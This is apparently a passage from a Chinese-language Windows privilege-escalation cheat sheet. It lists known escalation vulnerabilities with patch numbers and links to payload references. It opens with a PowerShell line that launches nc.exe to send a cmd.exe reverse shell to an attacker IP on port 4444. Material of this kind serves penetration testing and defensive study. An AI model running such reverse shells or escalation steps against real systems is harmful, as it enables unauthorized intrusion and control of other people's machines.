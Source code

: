```


$ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$ computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

#### EoP - Common Vulnerabilities and Exposure

通用漏洞

|名称|类型|适用环境|描述|
|:-------------:|--|--|-----|
|Token Impersonation (RottenPotato)|/|/|/|
|MS08-067 (NetAPI)|系统漏洞|Windows 2000/XP/Server 2003/Vista/Server 2008)|Remote Code Execution|
|MS16-032|系统漏洞|windows 7/8/10/2008/2012|Secondary Logon Handle. 补丁编号: KB3143141|
|MS17-010 (Eternal Blue)|系统漏洞|/|Windows Kernel Mode Drivers|windows 7/2008/2003/XP|补丁编号: KB4013389|
|CVE-2018-8120|Kernel Exploitation|(Windows 7 SP1/2008 SP2,2008 R2 SP1)x86 x64|[Win32k Elevation of Privilege Vulnerability]|
|[Win10Pcap-Exploit](https://github.com/Rootkitsmm/Win10Pcap-Exploit)|应用程序漏洞|win10|Exploit Win10Pcap Driver to enable some Privilege in our process token ( local Privilege escalation)|


检查补丁是否安装 `wmic qfe list | findstr "3139914"`

* 详细参考
  * [PayloadsAllTheThings/Windows - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#token-impersonation-rottenpotato)
  * [Windows-Notes-and-Cheatsheet.md](https://github.com/m0chan/m0chan.github.io/blob/master/_posts/2019-07-30-Windows-Notes-and-Cheatsheet.md)

